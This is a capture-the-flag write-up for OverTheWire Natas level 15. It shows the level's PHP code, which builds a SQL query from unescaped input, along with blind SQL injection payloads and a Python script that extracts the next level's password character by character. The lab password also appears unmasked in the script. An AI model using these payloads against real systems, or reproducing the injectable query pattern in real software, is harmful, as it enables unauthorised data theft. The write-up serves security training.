 # level 15

**Host**: http://natas15.natas.labs.overthewire.org
>natas15:SdqIqBsFcz3yotlNYErZSZ**********

When you visit the site, you will be prompted for a username

```
Username:
```

### Solution:

When you click on the "View source" link you get following php code:

```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

Again we have a SQLi vulnerability in this code. With the payload `username="natas16" and password LIKE "%a%"`, you can find out whether the password for natas16 contains an `a`. You can repeat this character by character until you have all the characters it contains. To find the correct order, you have to adjust the payload to `username=natas16" and password LIKE BINARY "%a%`. Since it takes a long time and is cumbersome to try character by character, it makes sense to write a Python script to automate the process.

```python
#!/usr/bin/env python3

import string
import requests
from requests.auth import HTTPBasicAuth

CHARSET = string.ascii_letters + string.digits

def main():
    password = ''
    chars_unsorted = ''
    auth = HTTPBasicAuth('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')


    for c in CHARSET:
        url = 'http://natas15.natas.labs.overthewire.org/index.php?debug=1&&username=natas16" and password LIKE "%' + c + '%'
        r = requests.get(url, auth=auth)
        if 'This user exist' in r.text:
            chars_unsorted += c

    for i in range(0, 32):
        for c in chars_unsorted:
            url = 'http://natas15.natas.labs.overthewire.org/index.php?debug=1&&username=natas16" and password LIKE BINARY"' + password + c + '%'
            r = requests.get(url, auth=auth)
            if 'This user exist' in r.text:
                password += c
                break

    print(f'Natas16 password: {password}')

if __name__ == '__main__':
    main()
```

Since there is no feedback built in this script you can run wireshark and filter for http to watch the progress or proxy it trought burpsuit.

```shell
$ ./exploit.py
Natas16 password: hPkjKYviLQctEW33QmuXL6**********
```